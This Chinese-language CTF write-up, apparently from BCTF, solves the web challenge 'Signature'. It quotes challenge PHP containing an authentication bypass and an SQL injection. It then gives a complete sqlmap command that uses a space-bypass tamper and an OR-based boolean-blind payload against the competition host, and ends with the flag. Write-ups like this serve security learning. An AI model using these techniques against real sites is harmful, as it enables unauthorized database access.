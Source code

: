 # WEB

## Signature - 666

题目已经关了，说说做题流程

github上面找到源码项目bbbccctttfff，看看里面的代码，在web/application/controllers/blog_bakcup_2014.php处有这么一段代码

```php
public function index()
    {
        $this->load->view('blog/v_blog_home_backup_2014');
        $this->session->set_userdata( array(  'logged_in' => 'yes' ) );
    }
```

于是我们就先访问这个页面然后再去访问别的页面就不需要登陆了。然后在admin页面处理userid处发现了sql注入点

```php
public function index()
    {
        $this->form_validation->set_rules('userid', 'Userid', 'required');
        if ($this->form_validation->run()) {
            $userid = $this->input->post('userid');
            if ($this->m_payment->waf($userid)) {
                if ($this->m_payment->get_by_userid($userid)) {
                    $this->data['query_success'] = 'Congraution!';
                } else {
                    $this->data['query_error'] = 'Wrong userid';
                }
            } else {
                $this->data['query_error'] = 'Illegal characters!';
            }
        }

        $this->load->view('admin/v_admin_home', $this->data);
        $this->load->view('template/v_admin_sidebar', $this->data);
    }
```

用户输入的userid经过了waf函数处理，但是waf函数的细节被删掉了，只能手动fuzz看看过滤了些什么，发现只过滤了空格符。然后上sqlmap，用名为space2comment的tamper绕过空格过滤，同时因为sqlmap默认会使用and而不是or而这里需要用or来进行布尔盲注，所以大致的sqlmap命令如下

```
python sqlmap.py -u "http://payment.bctf.xctf.org.cn/index.php/admin" --cookie "bctf_session=xxx" --user-agent "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:45.0) Gecko/20100101 Firefox/45.0" --data "userid='||1*#" --tamper space2comment --technique B --dbms mysql
```

最后的flag：bctf{Happyyyy_ENdiiiiiing}

## admin_only - 444 
